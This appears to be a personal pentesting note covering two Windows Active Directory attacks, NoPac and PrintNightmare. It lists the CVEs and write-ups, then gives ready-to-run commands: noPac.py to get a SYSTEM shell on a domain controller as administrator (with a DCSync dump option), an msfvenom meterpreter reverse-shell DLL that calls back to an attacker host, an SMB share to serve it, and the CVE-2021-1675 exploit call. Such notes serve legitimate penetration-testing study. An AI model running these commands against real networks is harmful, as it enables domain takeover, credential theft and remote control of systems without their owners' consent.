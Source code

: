 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## NoPac (SamAccountName Spoofing)
**CVEs**: 
- [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) : Bypass vulnerability with the Security Account Manager (SAM)
- [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287) : Vulnerability with the Kerberos Privilege Attribute Certificate (PAC) in ADDS
**Writeup**: 
- [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699)
- [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)
**Tool**: [noPac](https://github.com/Ridter/noPac) (includes a `scanner.py` and exploit `noPac.py`)

The idea is that you can change a computer account's SamAccountName to that of a DC. We can then request Kerberos tickets causing that service to issue tickets under the DC's name. This can give us SYSTEM shell access on the DC.

It relies on the `ms-DS-MachineAccountQuota` to not be `0` (*setting this to `0` can prevent a number of AD attacks*) as the user wouldn't be able to add new machine accounts.

```bash
sudo python3 scanner.py [domain]/[user]:[pass] -dc-ip [dc-ip] -use-ldap

sudo python3 noPac.py [domain]/[user]:[pass] -dc-ip [dc-ip] -dc-host [dc-name] -shell --impersonate administrator -use-ldap
```
> this can be very noisy and could be flagged by AV / EDR

This attack will leave the TGT on the attack host in the directory it was run. This `ccache` file could then be used for a [[Password Attacks#Pass-the-Hash|PtH]] or [[Abusing ACLs#DCSync|DCSync]] attack.
> We can use the `-dump` flag with noPac to a DCSync attack using [[Abusing ACLs#Using secretsdump.py|secretsdump.py]].

This tool makes use of `smbexec.py` (*from Impacket*) which can be quite noisy and easily detected by Windows Defender (*and other AVs*).

## PrintNightmare
**CVEs**:
- [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) : Print spooler improperly performs privileged file operations, allowing RCE
- [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) : Not publicly disclosed - Allows RCE
**Tool**: [cube0x0's](https://twitter.com/cube0x0?lang=en)

There are a number of exploits out there that use the RCE vulnerabilities, [cube0x0's](https://twitter.com/cube0x0?lang=en) is a popular one.
> Annoyingly, [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit uses a modified version of Impacket. `github.com/cube0x0/impacket`.

```Bash
rpcdump.py @[dc-ip] | egrep 'MS-RPRN|MS-PAR'
```
Lets us determine if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

### Create a DLL payload with [[MSFVenom]]
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[ATK_host] LPORT=[ATK_port] -f dll > [filename].dll
```
> Make sure to start an MSF multi/handler
### Host the DLL in an SMB Server
```bash
sudo smbserver.py -smb2support [share_name] [path_to_dll]
```
### Exploit
```bash
sudo python3 CVE-2021-1675.py [domain]/[user]:[pass] '\\[ATK_host]\[share_name]\[filename].dll'
```